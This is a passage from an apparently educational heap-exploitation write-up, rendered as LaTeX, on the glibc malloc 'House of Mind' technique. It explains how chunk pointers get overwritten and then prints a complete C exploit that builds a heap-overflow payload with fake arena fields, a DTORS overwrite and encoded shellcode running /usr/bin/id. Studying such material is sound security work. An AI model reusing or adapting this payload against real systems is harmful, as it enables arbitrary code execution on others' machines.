 \documentclass[12pt]{article}
\begin{document}
It seems that the second chunk "p", again suffer the wrath of free().
prev\_size field is OK, SIZE field is OK, but the 8 NOPS are trashed with
two memory addresses and 8 bytes NULL.
\newline

Note that after the call to "unsorted\_chunks()", we have two sentences
like these:

\begin{lstlisting}[language=C]
      p->bk = bck;
      p->fd = fwd;
\end{lstlisting}
	
It is clear that both pointers are overwritten with the address of the
previous and next chunks to our overflowed chunk "p".
\newline

What happens if we place 16 NOPS?
\newline

\begin{lstlisting}[language=C]
/*
 * K-sPecial exploit modified by blackngel
 */

#include <stdio.h>

/* linux_ia32_exec -  CMD=/usr/bin/id Size=72 Encoder=PexFnstenvSub
http://metasploit.com */
unsigned char scode[] =
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

int main (void) {

     int i, j;

   for (i = 0; i < 44 / 4; i++)
          fwrite("\x02\x01\x00\x00", 4, 1, stdout); /* av->max\_fast-12 */

   for (i = 0; i < 984 / 4; i++)
          fwrite("\x48\x96\x04\x08", 4, 1, stdout); /* DTORS\_END - 8   */

   for (i = 0; i < 721; i++) {
          fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* PRESERVE SIZE   */
          for (j = 0; j < 1028; j++)
                  putchar(0x41);                    /* PADDING         */
   }
   fwrite("\x09\x04\x00\x00", 4, 1, stdout);

   for (i = 0; i < (1024 / 4); i++)
          fwrite("\x14\xa0\x04\x08", 4, 1, stdout);

   fwrite("\xeb\x0c\x90\x90", 4, 1, stdout); /* prev\_size -> jump 0x0c */

   fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size -> NON\_MAIN\_ARENA */

   fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
          "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */

   fwrite(scode, sizeof(scode), 1, stdout); /* SHELLCODE */

   return 0;
}
\end{lstlisting}
\end{document}
